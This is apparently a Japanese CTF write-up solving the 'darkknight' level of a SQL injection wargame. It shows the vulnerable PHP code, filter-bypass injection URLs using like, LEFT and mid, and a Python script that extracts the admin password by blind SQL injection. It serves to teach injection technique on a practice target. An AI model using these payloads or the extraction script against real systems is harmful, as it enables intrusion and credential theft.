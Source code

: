 # darkknight

## answer

- [darkknight](../src/darkknight.py)

## problem

```
query : select id from prob_darkknight where id='guest' and pw='' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?pw=1&no=2
```

とすると

```
query : select id from prob_darkknight where id='guest' and pw='1' and no=2
```

となった。

コードを読んでいく。

```
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
```

pw、noで禁止されている文字が少し違う。

```
?pw=1&no=2 or 1
```

とかしてみると、「Hello guest」が表示される。

'は"、=はlikeで置き換えをする。

```
?pw=1&no=2 or id like "admin" and length(pw) like 8
```

```
https://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?pw=1&no=2%20or%20id%20like%20%22admin%22%20and%20length(pw)%20like%208

query : select id from prob_darkknight where id='guest' and pw='1' and no=2 or id like "admin" and length(pw) like 8

Hello admin
```

substrがpreg_matchによってサニタイズされているので、substringも使えない。

LEFT関数というものがある。使い方は以下のよう。

```
mysql> SELECT LEFT('foobarbar', 5);
        -> 'fooba'
```

これをふまえた上で、調査してみる。

```
?pw=1&no=2 or id like "admin" and LEFT(pw, 1) < "A"

?pw=1&no=2 or id like "admin" and LEFT(pw, 1) > "A"
```

上だけHello adminが返される。Blind SQLiで解けそう。

コードをかくぜ

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            val = '2 or id like \"admin\" and mid(pw,{count},1) like \"{char}\"'.format(count = count, char = char)
            params = {'no': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                print("not found")
                return
            time.sleep(0.1)
    print(password)

if __name__ == "__main__":
    main()
```

最後に、取れたパスワードを使って、以下を入力

```
https://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?pw=1c62ba6f
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashes | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [文字列関数 | mysql manual](https://dev.mysql.com/doc/refman/5.6/ja/string-functions.html)

- [文字列の左側から文字列を取り出す | yulib blog](http://db.yulib.com/mysql/000040.html)
